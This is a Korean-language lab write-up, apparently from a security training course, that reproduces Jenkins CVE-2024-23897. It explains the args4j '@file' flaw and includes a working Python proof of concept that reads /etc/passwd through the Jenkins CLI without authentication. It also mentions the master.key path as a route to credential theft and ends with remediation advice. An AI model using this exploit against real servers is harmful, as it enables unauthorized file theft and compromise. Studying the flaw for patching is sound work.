

# Jenkins CVE-2024-23897 — 임의 파일 읽기 (Arbitrary File Read)

> 화이트햇 스쿨 - [박설휘 (@sulVerdus)](https://github.com/sulVerdus)

<br/>

### 요약

Jenkins CLI는 내부적으로 args4j 라이브러리를 사용해 인자를 파싱한다. args4j는 인자 앞에 @가 붙으면 해당 경로의 파일을 읽어 내용을 인자 목록으로 자동 치환하는 기능이 있다. 이 기능이 사용자 입력을 제한 없이 처리하기 때문에, 공격자가 @/etc/passwd처럼 임의 파일 경로를 넘기면 Jenkins가 해당 파일을 읽어 에러 메시지에 내용을 그대로 노출한다.

인증이 전혀 필요 없고 단일 CLI 명령 하나로 재현 가능한 고위험 취약점이다.

<br/>

### 취약 조건

1. Jenkins 버전이 2.441 이하 (또는 LTS 2.426.2 이하)
2. Jenkins CLI 엔드포인트(/jnlpJars/jenkins-cli.jar)에 네트워크로 접근 가능
3. 익명 사용자에게 Overall/Read 권한이 부여되어 있거나 보안 설정이 비활성화된 상태

<br/>

### 환경 구성

다음 명령어를 실행하여 취약한 Jenkins 2.441 서버를 시작한다:

```bash
docker compose up -d
```

서버가 시작된 후 http://localhost:8080 으로 접속하면 로그인 없이 Jenkins 대시보드가 열린다.


<br/>

### 취약점 재현

Python 3과 Java가 설치된 환경에서 아래 명령을 실행한다. (jenkins-cli.jar는 자동 다운로드)

```bash
python poc.py http://localhost:8080 /etc/passwd
```

내부적으로 실행되는 CLI 명령:

```bash
java -jar jenkins-cli.jar -s http://localhost:8080 help @/etc/passwd
```

@/etc/passwd가 파일 내용의 각 줄로 치환되면서 잉여 인자들이 에러 메시지에 포함되어 반환된다.

<br/>

### PoC 코드

```python
import sys, subprocess, urllib.request, os

TARGET = sys.argv[1]
FILE   = sys.argv[2]
JAR    = "jenkins-cli.jar"

if not os.path.exists(JAR):
    urllib.request.urlretrieve(f"{TARGET}/jnlpJars/jenkins-cli.jar", JAR)

cmd = ["java", "-jar", JAR, "-s", TARGET, "help", f"@{FILE}"]
result = subprocess.run(cmd, capture_output=True, text=True, encoding="utf-8", errors="replace")
print(result.stdout + result.stderr)
```

<br/>

### 실행 결과

```
ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
java -jar jenkins-cli.jar help [COMMAND]
 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)
```




<br/>

### 정리

이 취약점은 인증 없이 서버 내 임의 파일을 읽을 수 있어 위험하다. /var/jenkins_home/secrets/master.key 등 민감한 파일이 유출되면 자격증명 탈취 및 RCE로 이어질 수 있다. Jenkins 2.442 / LTS 2.426.3 이상으로 업그레이드하거나, 보안 설정에서 CLI 접근을 비활성화하고 익명 사용자의 접근을 차단해야 한다.
